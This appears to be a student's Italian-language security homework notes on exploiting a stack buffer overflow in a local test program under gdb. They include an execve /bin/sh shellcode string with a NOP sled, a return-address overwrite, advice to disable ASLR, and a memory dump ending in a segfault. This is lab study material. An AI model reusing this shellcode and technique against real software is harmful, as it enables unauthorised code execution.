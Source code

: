 ## FILE PER Homework di sicurezza informatica


Remember to check with checksec the attributes of main.o and disable ASLR!

Guardo com'è strutturata la stack e becco l'indirizzo iniziale di stack
run $(python3 -c "print(b'A'*30)")
x/200xb $esp

L'indirizzo di inizio stack 0xbfffee00 (verrà poi scritto little-endian e aumentato leggermente per puntare alla nop sled)


```
run $(python -c "print('\x90'*48+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'+'\x10\xee\xff\xbf')")
```


ERRORE su

```
(gdb) x/100xb $esp
0xbfffee50:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee58:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee60:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee68:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee70:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee78:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee80:	0x90	0x90	0x90	0x90	0x90	0x31	0xc0	0x50
0xbfffee88:	0x68	0x2f	0x2f	0x73	0x68	0x68	0x2f	0x62
0xbfffee90:	0x69	0x6e	0x89	0xe3	0x31	0xc9	0x31	0xd2
0xbfffee98:	0xb0	0x0b	0xcd	0x80	0x70	0xee	0xff	0xbf
0xbfffeea0:	0x00	0xf1	0xff	0xbf	0x64	0xef	0xff	0xbf
0xbfffeea8:	0x70	0xef	0xff	0xbf	0xc1	0x84	0x04	0x08
0xbfffeeb0:	0xdc	0xd3	0xfb	0xb7
(gdb) n
Single stepping until exit from function oflow,
which has no line number information.
0xbfffee70 in ?? ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xbfffee95 in ?? ()
```

